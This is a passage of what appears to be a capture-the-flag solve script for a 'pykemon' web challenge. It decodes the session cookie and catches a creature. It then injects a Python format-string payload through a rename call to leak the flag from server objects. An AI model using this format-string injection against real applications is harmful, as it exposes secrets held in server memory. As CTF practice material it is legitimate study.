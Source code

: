 ```python3
    if cookie == None:
        return None
    cookie = cookie.value
    return json.loads(zlib.decompress(base64.urlsafe_b64decode(cookie.split(".")[1] + "===")))
    
def get_pykemon():
    data = decode_session()
    if data == None:
        return None
    return data["room"]["pykemon"]

def get_pykemon_pid(pykemon):
    return base64.urlsafe_b64decode(pykemon["pid"][" b"]).decode("utf-8")

def try_catch():
    p = get_pykemon()
    if p == None:
        print("[FAIL] couldn't get pykemon")
    i = 0
    for mon in p:
        i += 1
        print("[INFO] attempt #{}".format(i))
        pid = get_pykemon_pid(mon)
        print("[INFO] catching {}".format(pid))
        r = catch(pid)
        print("[INFO] answer was {}".format(r))
        if "has been caught" in r:
            return pid
    return None

def rename_flag(pid):
    flag_fmtstr = "{0.__class__.pykemon[10][4]}"
    r = rename(pid, flag_fmtstr)
    match = re.search("PCTF{[^}]*}", r)
    if match == None:
        print("[INFO] flag match failed: {}".format(r))
        return None
    else:
        return match.group()

def run():
    r = get_room()
    if r.status_code != 200:
        print("[FAIL] couldn't get room")
        return
    pid = try_catch()
    if pid == None:
        print("[FAIL] couldn't catch pykemon")
        return
    flag = rename_flag(pid)
    if flag == None:
        print("[FAIL] couldn't extract flag")
        return
    print("[ OK ] flag is {}".format(flag))

run()
```
